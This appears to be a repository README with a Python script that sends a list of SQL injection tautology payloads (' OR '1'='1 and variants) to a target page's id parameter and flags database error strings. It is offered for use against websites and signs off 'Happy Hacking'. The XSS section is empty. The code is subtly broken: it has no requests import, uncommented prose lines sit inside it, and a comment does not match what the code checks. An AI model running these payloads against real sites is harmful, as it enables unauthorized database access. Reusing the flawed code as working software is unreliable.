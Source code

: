 =============================================
               SQL INJECTION
=============================================
Define the URL of the target website:
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
test_sql_injection(url, payloads)



===========================================
                   XSS
===========================================














SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!
